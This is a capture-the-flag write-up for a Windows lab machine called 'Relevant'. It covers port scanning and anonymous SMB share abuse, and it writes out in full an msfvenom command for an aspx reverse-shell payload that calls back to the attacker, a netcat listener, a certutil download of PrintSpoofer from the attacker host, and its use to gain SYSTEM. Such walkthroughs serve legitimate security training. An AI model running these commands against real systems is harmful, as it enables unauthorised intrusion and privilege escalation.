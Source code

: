 ## IP: 10.10.18.222    

The IP was being provided,start the machine by exporting the IP.  

```
export IP='10.10.18.222'
```  

As usual perform a nmap scan to discover the services running.  

======================  
## NMAP RESULT:  

```
nmap -sCV $IP --open
```  

```
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2024-02-16T07:46:14+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2024-02-15T07:41:49
|_Not valid after:  2024-08-16T07:41:49
|_ssl-date: 2024-02-16T07:46:57+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-02-16T07:46:18
|_  start_date: 2024-02-16T07:42:37
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h36m00s, deviation: 3h34m41s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-02-15T23:46:16-08:00
```  

To discover all the running services:  

```
rustscan -a $IP
```  

```
Open 10.10.18.222:135
Open 10.10.18.222:139
Open 10.10.18.222:80
Open 10.10.18.222:445
Open 10.10.18.222:3389
Open 10.10.18.222:49663
Open 10.10.18.222:49670
Open 10.10.18.222:49667
```  

By enumerating further port 49663 came up to run http server and ports 49670,49667  

```
nmap -sCV  $IP --open -p 49663,49670,49667
```  

```
49663/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
49667/tcp open  msrpc   Microsoft Windows RPC
49670/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

So,from the nmap result we found the target to be a Windows Machine.  

## OS: Windows  

Next step will be to write the domain name in */etc/hosts* file  

======================  
## ENUMERATION:  

I started enumerating HTTP(80):  

Fuzzed the directory using *wfuzz* but nothing useful came out.  

Next Fuzzed the http server running on port *49663*  

and found one interesting directory *nt4wrksv*  

------  

Next I started to enumerate SMB(139,445) further.  


```
smbclient -L \\\\$IP\\
```  
with a '' password  

```
Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      

```
![smb_null_share](https://github.com/Debang5hu/Debang5hu/assets/114200360/395dfdbb-5088-4bc8-8feb-28ce7abe28d0)  

*nt4wrksv* we have the permission to get into this share anonymously (i.e Without user and password)  

Even we can upload files using the anonymous session.  

we found a file "passwords.txt" but turned out to be *rabbit hole*.

Remember, we found an interesting directory named "nt4wrksv" in "http://relevant.thm/nt4wrksv"  

Next I check whether we can find the *passwords.txt* file in "nt4wrksv" directory and we were able to access the file.  

![smbshare_directory](https://github.com/Debang5hu/Debang5hu/assets/114200360/99ac8a45-ef73-45a7-9f0e-0a663fd18d51)  

## Getting a reverse shell  

Since it is a Windows server we will be uploading reverse shell of *aspx*  

Using msfvenom to create the payload  

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.9.98 LPORT=53 -f aspx -o reverse.aspx
```  

Next upload the reverse.aspx by the anonymous SMB share  

![uploaded_payload](https://github.com/Debang5hu/Debang5hu/assets/114200360/dae0a9c1-76ba-486a-9d73-79e5d7819d76)  

Then start by starting a netcat server:  

```
rlwrap nc -lnvp 53
```

And get a payload by requesting "relevant.thm:49663/nt4wrksv/reverse.aspx" using browser else "curl" can be used to do the same.  

![revshell](https://github.com/Debang5hu/Debang5hu/assets/114200360/6cbd4f5d-4295-4725-9836-8a735bee87de)  

Then explore the file system to get the user flag.It could be found in (c:\Users\Bob\Desktop) then "type user.txt" to read the user flag!  

![userflag](https://github.com/Debang5hu/Debang5hu/assets/114200360/11267a9c-5e0d-468e-9f25-f4e7030252e4)  

## Priviledge Escallation:  

Start enumerating by checking the priviledges of the account.

```
whoami /priv
```  

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```  

We got *SeImpersonatePrivilege* enabled [i.e might be vulnerable to *Potato Attacks*]  

checking its systeminfo we found that it is vulnerable to https://github.com/dievus/printspoofer  

Then transfer the file to victim's device using *certutil*  

```
certutil.exe -urlcache -split -f http://10.17.9.98/PrintSpoofer.exe
```  

Then execute the file to escallate the priviledge  

```
PrintSpoofer.exe -i -c cmd
```  
![ntauthoritysystem](https://github.com/Debang5hu/Debang5hu/assets/114200360/6d72e4bc-b134-4e6d-ab6f-7902b7df1850)  

 
